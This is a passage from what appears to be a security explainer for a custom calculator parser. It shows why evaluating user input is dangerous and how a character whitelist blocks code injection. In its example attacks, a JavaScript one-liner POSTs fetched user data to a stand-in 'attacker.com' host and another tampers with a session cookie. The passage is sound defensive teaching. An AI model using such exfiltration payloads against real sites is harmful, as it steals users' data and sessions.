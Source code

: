 **Example 2: Data Exfiltration**
```javascript
// User enters: "fetch('/api/user-data').then(r=>r.json()).then(d=>fetch('https://attacker.com',{method:'POST',body:JSON.stringify(d)}))"
// Result: Steals user data and sends to attacker's server
```

**Example 3: Session Hijacking**
```javascript
// User enters: "document.cookie = 'sessionId=hacked; path=/'"
// Result: Could compromise user session
```

### 🛡️ How Our Custom Parser Prevents These Attacks

#### 1. **Whitelist-Only Approach**
Our parser only allows specific, safe characters:

```javascript
// Only these characters are allowed:
const allowedPattern = /^[\d+\-*/().\s]+$/;
// ✅ Digits: 0-9
// ✅ Operators: +, -, *, /
// ✅ Parentheses: (, )
// ✅ Decimal point: .
// ✅ Whitespace: space, tab, newline
// ❌ Everything else is rejected
```

#### 2. **No Code Execution**
The parser only processes mathematical tokens:

```javascript
// Our parser processes this:
"2 + 3 * 4" → [2, '+', 3, '*', 4] → [2, 3, 4, '*', '+'] → 14

// It CANNOT execute these attacks:
"alert('hack')" → ❌ Error: "Invalid character: a"
"fetch('/api')" → ❌ Error: "Invalid character: f"
"document.body" → ❌ Error: "Invalid character: d"
```

#### 3. **Controlled Operations**
Only predefined mathematical operations are supported:

```javascript
// ✅ Supported and safe:
this.operators = {
  '+': { precedence: 1, associativity: 'left' },
  '-': { precedence: 1, associativity: 'left' },
  '*': { precedence: 2, associativity: 'left' },
  '/': { precedence: 2, associativity: 'left' }
};

// ❌ NOT supported (cannot be injected):
// - Function calls (alert, fetch, etc.)
// - Variable access (document, window, etc.)
// - File system operations
// - Network requests
// - DOM manipulation
// - Cookie/localStorage access
```
